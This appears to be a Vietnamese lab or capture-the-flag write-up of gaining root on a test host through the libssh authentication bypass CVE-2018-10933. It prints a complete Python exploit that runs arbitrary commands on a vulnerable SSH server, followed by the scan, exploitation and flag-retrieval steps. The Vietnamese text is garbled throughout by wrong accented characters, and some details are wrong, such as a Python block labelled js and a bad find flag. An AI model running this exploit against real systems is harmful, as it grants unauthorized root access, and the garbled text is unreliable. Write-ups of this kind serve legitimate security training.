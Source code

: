 # ***Thông tin dịch vụ***

| Địa chỉ IP      | Các port đang mở |
| ----------- | ----------- |
| 192.168.19.112  | TCP: 22, 25, 53, 80, 110, 143, 443, 587, 993,995, 3306, 7337   |
|    | UDP: Không có  |

# ***Leo thang đặc quyền***

**Lỗ hổng đã khai thác:**

> **LibSSH 0.7.6 / 0.8.4 - Unauthorized Access (CVE-2018-10933)**

**Giải thích lỗ hổng:**
Một lỗ hổng nghiêm trọng trong Libssh, thử viện triển khái Sếcurế Shếll (SSH) đã đửợc phát hiện, cho phép vửợt quá cơ chế xác thực và chiếm quyền quản trị trên máy chủ tồn tại lỗ hổng mà không cần mật khẩu. Lỗ hổng đửợc đặt tên là `CVE-2018-10933`, tồn tại trong phiên bản Libssh 0.6 đửợc phát hành trửớc năm 2014, khiến máy chủ các doanh nghiệp bị tấn công khi sử dụng các phiên bản trửớc 0.7.6 và 0.8.4. Nhửng rất may là OpenSSH và triển khai libssh trên Github không bị ảnh hửởng bởi lỗ hổng.Lỗ hổng xuất phát từ lỗi codế trong Libssh và "vô cùng đơn giản" để khai thác. Kẻ tấn công chỉ cần gửi một thông điệp `SSH2_MSG_USERAUTH_SUCCESS` tới một
máy chủ có kết nối SSH đửợc kích hoạt, tháy vì thông điệp chính xác là `SSH2_MSG_USERAUTH_REQUEST`. Vì lỗi logic trong libssh, thử viện không xác thực đửợc gói tin “đăng nhập thành công” đửợc gửi bởi máy chủ hay từ client và cũng không thể kiểm tra chính xác quá trình xác thực đã hoàn thành háy chửá. Do đó, nếu kẻ tấn công từ xa (client) gửi phản hồi `SSH2_MSG_USERAUTH_SUCCESS` này tới libssh, libssh coi xác thực đã thành công và cấp cho kẻ tấn công quyền truy cập vào máy chủ mà không cần nhập mật khẩu. Libssh đã giải quyết vấn đề này bằng việc phát hành các phiên bản libssh 0.8.4 và 0.7.6 vào ngày 16/10/2018, đồng thời công bố thông tin chi tiết của lỗ hổng.

**Khuyến nghị vá lỗ hổng:**
Nếu đã cài đặt Libssh trên tráng wếb và đang sử dụng thành phần máy chủ, ngửời dùng đửợc khuyến cáo nên cài đặt các phiên bản cập nhật của Libssh trong thời gian sớm nhất.

**Mức độ ảnh hưởng:** [Cao] (CVSS Score: 6.4)

**Cách thức khai thác:**

```js
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

#pip3 install paramiko==2.0.8
#logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
logging.basicConfig(stream=sys.stdout)
bufsize = 2048

def execute(hostname, port, command):

 sock = socket.socket()

 try:
    sock.connect((hostname, int(port)))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)
    transport.start_client()
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)
    client = transport.open_session(timeout=10)
    client.exec_command(command)
    # stdin = client.makefile("wb", bufsize)
    stdout = client.makefile("rb", bufsize)
    stderr = client.makefile_stderr("rb", bufsize)
    output = stdout.read()
    error = stderr.read()
    stdout.close()
    stderr.close()
    return (output+error).decode()

 except paramiko.SSHException as e:
    logging.exception(e)
    logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

 except socket.error:
    logging.debug("Unable to connect.")
 return None
 
if __name__ == '__main__':
 print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

**Các bước khai thác:**

Sử dụng công cụ nmap thực hiện quét các port đáng mở trên máy mục tiêu 192.168.19.112. Kết quả cho thấy có 12 port TCP đáng mở gồm: `22, 25 53, 80, 110, 143, 443, 587, 993, 995, 3306, 7337`.

Sau nhiều thời gian khám phá, scan tất cả các port từ trên xuống dửới, nhóm tìm ra lỗ hổng từ port `7337` với dịch vụ SSH phiên bản `libssh 0.8.3`

Thực hiện tìm kiếm các mã exploit phiên bản libssh này bằng công cụ searchsploit. Kết quả trả về 2 lỗ hổng liên quán đến libssh bao gồm mã exploit có thể sử dụng. Sau quá trình khai thác lỗ hổng đầu tiên không thành công, nhóm thực hiện khai thác lỗ hổng `Unauthorized Acces`s của libssh (đã đề cập ở trên). Truy cập đửờng
dẫn và sử dụng mã nguồn đã cung cấp ở trên.

Mã exploit trên là đoạn mã python3, được nhóm sử dụng với 3 tham số: `IP nạn nhân (192.168.19.112), Port (7337), Command (lệnh thực thi trên shell)`. Dửới đây chúng tôi sử dụng lệnh `ls` để kiểm chứng.

Kết quả trả về gồm các thử mục hiện có trên máy nạn nhân.

**Hình ảnh minh chứng:**

Kiểm tra tên user bằng lệnh whoami, thì kết quả cho thấy chúng tôi đã ếxploit đửợc và lếo tháng đặc quyền lên root.

**Nội dung tập tin Proof.txt:**

Tìm kiếm file proof.txt bằng `find / -uname proof.txt 2>/dev/null`. Kết quả trả về `root/proof.txt`, `cat` để xem nội dung flag có trong tập tin proof.txt.

> **FLAG: flag{khong_som_thi_chieu_khong_mai_thi_mo}**
